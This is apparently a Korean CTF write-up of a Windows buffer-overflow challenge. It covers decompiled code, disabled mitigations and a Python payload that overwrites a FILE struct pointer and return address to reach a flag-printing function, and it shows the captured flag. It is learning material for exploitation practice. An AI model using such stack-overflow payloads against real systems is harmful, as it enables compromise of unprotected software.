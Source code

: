```yaml
---
title: 2018 HackingCamp 18th CTF - LET WINPWN
date: 2018-09-19 14:19:53
categories:
- Window Pwnable
- CTF write up
tags:
- Window BufferOverflow
---
```


```
This is quiz time
today is hackingcamp day isn't it?
```



hackingcamp 때 깔끔히 손절하고 집가서 천천히 풀자! 라고 생각하고 풀게된 문제

해캠 끝나고 바로 풀었는데 라이트업은... 이제서야..

window pwnable은 처음 풀어보았다. window pwnable은 환경설정을 AppjailLauncher로 한다고 한다.



process explorer 를 이용해 더블클릭하면 보호기법이 나온다

```
DEP : disabled 
ASLR: (premanent) disabled
CFG: disabled
```

*** CFG (Control Flow Guard)

```
간접호출 전 컴파일과 링크과정에서 타겟 체크를 위한 추가 호출을 삽입해줌
GuardCFFuntionalTable 안에 icall check가 있느냐 없느냐가 기준
```



```c
void __fastcall __noreturn sub_401130(int a1)
{
  int v1; // [esp-2h] [ebp-4h]

  v1 = a1;
  sub_401050((int)"This is quiz time\n");
  sub_401050((int)"today is hackingcamp day isn't it?");
  sub_4010C0("%c", (char *)&v1 + 3);
  if ( SHIBYTE(v1) == 'y' || SHIBYTE(v1) == 'Y' )
    sub_401050((int)"Thankyou participate hackingcamp...\n");
  sub_401100();
}
```

바이너리를 받고 main 함수로 추측되는 부분을 따라가면 정말 취약점이 어디있는건지 모르겠는 함수가 나온다.

실행해보면 bof 도 안터지고 ~~bof 문제라매..~~ 복구해달라는 메세지박스만 출력하고 꺼져버린다.



```c
int sub_401190()
{
  FILE *v0; // eax
  FILE *v1; // eax
  char Buf; // [esp+0h] [ebp-68h]
  FILE *File; // [esp+64h] [ebp-4h]

  v0 = (FILE *)_acrt_iob_func(1);
  setvbuf(v0, 0, 4, 0);
  v1 = (FILE *)_acrt_iob_func(0);
  setvbuf(v1, 0, 4, 0);
  Sleep(0x3E8u);
  puts("FLAG IS...");
  File = fopen("The actual flags are on the server.txt", "r");
  Sleep(0x3E8u);
  fgets(&Buf, 0x64, File);
  puts(&Buf);
  return fclose(File);
}
```

근데 코드 영역을 보니 이런 함수가 숨어져 있다. 근데 이것도 bof 가 안터짐 (..?)

nc로 접속해보면 나오는 부분도 이 부분이 아니다.



```c
  v0 = (FILE *)_acrt_iob_func(1);
  setvbuf(v0, 0, 4, 0);
  v1 = (FILE *)_acrt_iob_func(0);
  setvbuf(v1, 0, 4, 0);
```

윈도우는 처음 봐서 검색해 봤더니

(FILE *)_acrt_iob_func() 이 부분은 stdin 과 stdout 의 file 구조체 주소 값을 가져오는 함수다.

setvbuf 때문에 가져온 것



```asm
.text:0040129F                 push    1
.text:004012A1                 call    ds:Sleep
.text:004012A7                 push    offset asc_4021D4 ; ">>"
.text:004012AC                 call    ds:puts
.text:004012B2                 add     esp, 4
.text:004012B5                 lea     eax, [ebp-68h]
.text:004012B8                 push    eax
.text:004012B9                 push    offset aS       ; "%s"
.text:004012BE                 call    sub_4010C0
.text:004012C3                 add     esp, 8
.text:004012C6                 push    offset aR_0     ; "r"
.text:004012CB                 lea     ecx, [ebp-68h]
.text:004012CE                 push    ecx
.text:004012CF                 call    ds:fopen
.text:004012D5                 add     esp, 8
.text:004012D8                 mov     [ebp-4], eax
.text:004012DB                 call    sub_401100
```

그래서 더 내리다 보면 이런 영역이 나온다. 여기가 바로 nc 로 접속하면 뜨는 부분이다.

그 후 fopen 함수를 호출한 뒤 

sub_401100를 호출하는 데 여긴 아까 복구가 필요하다는 메세지박스를 출력하는 함수다.

leave ret 을 만나야 bof 가 터져서 뭐라도 할텐데 저 부분을 만나면 exit로 강제종료 해버린다.



![hackcamp](https://user-images.githubusercontent.com/36659181/45794328-0e5d9180-bcd1-11e8-95e6-b771f180f55a.PNG)

그래서 이렇게 패치해줬다.



```
0019FB9C   61616161  aaaa
0019FBA0   61616161  aaaa
0019FBA4   61616161  aaaa
0019FBA8   61616161  aaaa
0019FBAC   61616161  aaaa
```

40129f 함수를 보면 fgets를 호출해 파일 내용을 스택에 저장하는데, 여기서 bof 가 터진다.



```
0049D620  00 00 00 00 00 00 00 00  ........
0049D628  00 00 00 00 01 20 00 00  .... ..
0049D630  03 00 00 00 00 00 00 00  .......
0049D638  00 00 00 00 00 00 00 00  ........
0049D640  FF FF FF FF FF FF FF FF  
```

fopen을 한 뒤 fclose 를 하는데, 이때 파일 구조체 포인터를 맞춰주지 않으면 프로그램이 종료되어 버린다. fake file struct를 만들어야함! 



```asm
.text:004012E0                 mov     edx, [ebp-4]
.text:004012E3                 push    edx
.text:004012E4                 push    4B0h
.text:004012E9                 lea     eax, [ebp-39Ch]
.text:004012EF                 push    eax
.text:004012F0                 call    ds:fgets
.text:004012F6                 add     esp, 0Ch
```

어셈을 보면 파일 문자열은 ebp-0x39c 에, 파일 포인터는 ebp-4 에 저장 한다는 것을 알 수 있다.



```python
import struct

p32 = lambda x: struct.pack("<L", x)
u32 = lambda x: struct.unpack("<L", x)[0]

fake = p32(0)*3+p32(0x201)+p32(3)+p32(0)*3+p32(0xffffffff)*2

payload = fake
payload += "a"*(0x398-len(fake))
payload += p32(0x19fb9c)
payload += "dumm"
payload += p32(0x401190)

f = open("test.txt","wb")
f.write(payload)
f.close()
```

ASLR이 안걸려있으므로 주소값은 그냥 보이는대로 쓱싹해오면 된다.

eip 를 아까 flag 출력해주는 sub_401190로 바꾸면 플래그 획득!



```
C:\Users\Team4\Desktop>nc 13.67.92.209 36531                                                           
>>                                                                                                       
C:\Users\Team4\Desktop\test.txt                                                                          
FLAG IS...                                                                                               
HCAMP{Watch0ut!!_FileObject_Overwrite_c00KIE}     
```




참고

```
http://jhisthebest.tistory.com/4
https://bpsecblog.wordpress.com/windows_seh/
http://teamcrak.tistory.com/348
https://demonteam.org/2018/09/04/hackingcamp-18th-let-winpwn/
```
